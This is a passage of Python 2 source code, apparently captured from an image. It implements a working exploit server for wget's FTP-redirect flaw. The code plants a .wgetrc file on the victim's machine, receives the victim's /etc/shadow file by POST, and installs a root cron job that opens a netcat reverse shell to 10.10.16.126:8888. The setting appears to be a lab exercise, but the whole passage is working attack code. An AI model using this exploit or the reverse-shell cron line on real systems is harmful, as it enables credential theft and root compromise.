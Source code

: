 ```
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nEspera um minutinho que voce vai ganhar o shell :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.126 8888 >/tmp/f \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

